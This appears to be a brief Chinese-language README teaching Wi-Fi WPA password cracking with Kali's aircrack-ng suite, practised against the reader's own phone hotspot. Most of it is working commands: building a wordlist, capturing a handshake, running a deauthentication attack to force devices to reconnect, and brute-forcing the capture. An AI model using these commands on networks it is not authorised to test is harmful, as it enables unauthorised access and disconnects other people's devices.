 # 破解-wifi
kali的小应用
## 要求:
一台装有kali的电脑 \
一部手机 \
一个支持监控的无线网卡(一般笔记本都支持)； \
一个强大的字典； \
人需要有时间和耐心； 
## 手机开热点，密码设纯数字8到10位
## 准备字典
这里我们自己建一个简单字典来用会比较快，可以验证是否成功， \
先在/etc下创建一个字典，使用crunch命令创建  \
`crunch 8 10 1234567890. -o /etc/zidian.txt`
## 首先断开连接的wifi
在终端中执行：`airmon-ng`
## 开启无线网卡的监控模式
`airmon-ng start wlan0` \
之后网卡接口会变成wlan0mon
## 查看wifi网络
`airodump-ng wlan0mon` \
CH 是频道号，BSSID是网卡物理地址，ESSID是WiFi名称 \
按CTRL+C结束
## 抓取握手包
目标路由CH号为 1 ，mac为 11：22：33：44：55：66 \
命令airodump-ng -c 目标CH号 --bssid 目标mac -w 保存位置 wlan0mon \
`airodump-ng -c 1 --bssid 11:22:33:44:55:66 -w /etc/ wlan0mon` \
成功后，按CTRL+C结束 
## 等不到有人连WiFi，抓不到包，只能强制设备连接
打开另一个终端，运行一下命令 \
-0 是发起攻击，2 是表示断开后ping的次数，次数越多，设备重连的验证时间越长，-a 是指定路由，-c 指定断开设备 \ 
`aireplay-ng -0 2 -a 11:22:33:44:55:66 -c 00:11:22:33:44:55 wlan0mon` 
## 得到握手包后，可以关闭监控模式了
`airmon-ng stop wlan0mon` 
## 开始破解密码
`aircrack-ng -w /etc/zidian.txt /etc/*.cap` 
